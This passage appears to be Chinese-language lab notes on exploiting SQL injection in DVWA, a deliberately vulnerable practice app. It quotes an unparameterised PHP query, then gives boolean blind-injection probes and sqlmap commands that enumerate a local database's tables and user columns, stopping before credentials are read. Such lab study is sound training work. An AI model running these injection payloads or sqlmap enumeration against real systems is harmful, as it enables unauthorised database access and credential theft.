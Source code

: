 ```PHP
            #print $query;
            try {
                $results =   $sqlite_db_connection->query($query);
            } catch (Exception $e) {
                echo 'Caught exception:   ' . $e->getMessage();
                exit();
            }

            if ($results) {
                while ($row =   $results->fetchArray()) {
                    // Get values
                    $first =   $row["first_name"];
                    $last  = $row["last_name"];

                    // Feedback for end   user
                    echo   "<pre>ID: {$id}<br />First name: {$first}<br   />Surname: {$last}</pre>";
                }
            } else {
                echo "Error in   fetch ".$sqlite_db->lastErrorMsg();
            }
            break;
    }
   }

   ?>
```
没有进行预编译\
用户数据拼接了代码，没有实现代码、数据分离\
想要利用 session 和自定义错误返回来增加安全系数，成功的躲过了 Error 注入方式
## SQL Injection (Blind)-low
输入 1'报错\
输入 1 and 1=2#，不报错\
输入 1' and1=2#，\
User ID is MISSING from the database.\
则说明存在字符型注入，闭合为单引号，判断列数，不能使用 order by 进行分组，说明只是执行校验功能。\
获取数据库名使用 \
length（database（））>3#，不报错\
1' and length(database())>4# 报错：User ID is MISSING from the database。\
说明数据库名字为四个字符\
依次判断四个字符：\
使用 sqlmap\
python   sqlmap.py -u"http://localhost/DVWA/vulnerabilities/sqli_blind/?id=2&Submit=Submit#"   --cookie" PHPSESSID=5srr3gl4j9l0h83gv92aggrnd0; security=low"   --current-db
- 检测存在注入漏洞类型：存在基于布尔型的盲注漏洞\
python   sqlmap.py -u   "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit"   --cookie "security=low; PHPSESSID=sglkdapflbtotcoq7968mm92ib "\
[图片]
- #获取当前数据库名\
python   sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit"   --cookie "security=low; PHPSESSID=sglkdapflbtotcoq7968mm92ib "   --current-db\
[图片]
- 获取数据库 dvwa 中的表格名\
python   sqlmap.py -u   "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit"   --cookie "security=low; PHPSESSID=sglkdapflbtotcoq7968mm92ib " -D   dvwa --tables
#dvwa不用加引号\
[图片]
- 获取数据库 dvwa 中 users 表的字段\
python   sqlmap.py -u   "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit"   --cookie "security=low; PHPSESSID=sglkdapflbtotcoq7968mm92ib " -D   dvwa -T users --columns\
[图片]
- 读取其中 user，和 password 中的内容：\